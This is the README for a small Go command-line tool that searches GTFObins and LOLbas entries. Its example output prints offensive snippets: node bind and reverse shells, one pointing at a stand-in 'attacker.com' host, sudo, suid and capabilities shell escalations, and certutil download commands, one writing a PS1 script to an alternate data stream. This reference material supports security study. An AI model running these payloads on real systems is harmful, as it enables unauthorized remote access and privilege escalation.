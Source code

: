 # Gtfodora
Explorer for GTFObins and LOLbas content.

The main purpose of this small tool is to give a CLI interface to the amazing [GTFObins](https://gtfobins.github.io/) and [LOLbas](https://lolbas-project.github.io/) projects.

The way `gtfodora` accomplishes this is quite dumb, it clones the repositories for the two sites and parses the `.yml` files, similarly to what the static site generator does.

## Disclaimer

I used this project to learn GO, or at least to get started with it. The code is probably bad, and there are several improvements that can be made. Please be forgiving and feel free to open PRs.

## Usage

```bash
Usage of ./gtfodora:
  -clone-path string
    	The path in which to clone the gtfobin and lolbas repos, defaults to "/tmp." (default "/tmp")
  -f string
    	Filter the search only for the specified function
  -list-all
    	List all the binaries in the collection
  -list-functions
    	List the functions for the binaries
  -s string
    	Search for the binary specified and prints its details
  -unix
    	Filter the search among only unix binaries (i.e., gtfobin)
  -v	Set loglevel to DEBUG
  -win
    	Filter the search among only windows binaries (i.e, lolbas)

```

The `-clone-path` defaults to `/tmp` and represents the directory in which the repositories will be cloned.
The `-list-all` and `-list-functions` print, respectively, all the binaries (both Unix and Windows) and all the functions that are available (i.e., "Download File" or "Execute").
The `-unix` and `-win` switches can be used together with all the other commands and will filter the results for GTFObins or LOLbas only, respectively.
The `-s` and `-f` can be used to search for specific binaries (-s), binaries that allow a certain function (-f) or to get the information on how a function is performed by a specific binary (combined).

At every execution the program will try to clone and pull the repositories, so that the information is up-to-date.

## Examples

List all the functions for GTFObins:

```bash
time ./gtfodora -clone-path . -list-functions -unix
Functions available:
	shell
	upload
	download
	filewrite
	fileread
	libraryload
	sudo
	noninteractiverevshell
	command
	bindshell
	suid
	limitedsuid
	revshell
	noninteractivebindshell
	capabilities
./gtfodora -clone-path . -list-functions -unix  0,31s user 0,11s system 21% cpu 1,927 total
```

Search for all the binaries that can perform the 'bindshell' function:

```bash
time ./gtfodora -f bindshell
List of all the binaries with function bindshell:
nc
node
socat
./gtfodora -f bindshell  0,10s user 0,02s system 13% cpu 0,913 total
```

Get the details of how a binary can accomplish the bindshell function:

```bash
time ./gtfodora -f bindshell -s node
[+] bindshell:
--------------
- Description:
Run `nc target.com 12345` on the attacker box to connect to the shell.
- Code:
export LPORT=12345
node -e 'sh = require("child_process").spawn("/bin/sh");
require("net").createServer(function (client) {
  client.pipe(sh.stdin);
  sh.stdout.pipe(client);
  sh.stderr.pipe(client);
}).listen(process.env.LPORT);'


./gtfodora -f bindshell -s node  0,11s user 0,01s system 13% cpu 0,936 total
```

Get all the details about a specific binary:

```bash
time ./gtfodora -s node
Information about: node
[+] shell:
----------
- Code:
node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'


[+] sudo:
---------
- Code:
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'


[+] bindshell:
--------------
- Description:
Run `nc target.com 12345` on the attacker box to connect to the shell.
- Code:
export LPORT=12345
node -e 'sh = require("child_process").spawn("/bin/sh");
require("net").createServer(function (client) {
  client.pipe(sh.stdin);
  sh.stdout.pipe(client);
  sh.stderr.pipe(client);
}).listen(process.env.LPORT);'


[+] suid:
---------
- Code:
./node -e 'require("child_process").spawn("/bin/sh", ["-p"], {stdio: [0, 1, 2]});'


[+] revshell:
-------------
- Description:
Run `nc -l -p 12345` on the attacker box to receive the shell.
- Code:
export RHOST=attacker.com
export RPORT=12345
node -e 'sh = require("child_process").spawn("/bin/sh");
net.connect(process.env.RPORT, process.env.RHOST, function () {
  this.pipe(sh.stdin);
  sh.stdout.pipe(this);
  sh.stderr.pipe(this);
});'


[+] capabilities:
-----------------
- Code:
./node -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'


./gtfodora -s node  0,12s user 0,04s system 16% cpu 0,904 total
```

Do the same, for a Windows binary: 

```bash
time ./gtfodora -s Certutil.exe
Information about: Certutil.exe
[+] download:
-------------
- Description:
Download and save 7zip to disk in the current folder.
- Code:
certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe

- Description:
Download and save 7zip to disk in the current folder.
- Code:
certutil.exe -verifyctl -f -split http://7-zip.org/a/7z1604-x64.exe 7zip.exe

[+] ads:
--------
- Description:
Download and save a PS1 file to an Alternate Data Stream (ADS).
- Code:
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt

[+] encode:
-----------
- Description:
Command to encode a file using Base64
- Code:
certutil -encode inputFileName encodedOutputFileName

[+] decode:
-----------
- Description:
Command to decode a Base64 encoded file.
- Code:
certutil -decode encodedInputFileName decodedOutputFileName

./gtfodora -s Certutil.exe  0,10s user 0,01s system 11% cpu 0,930 total
```
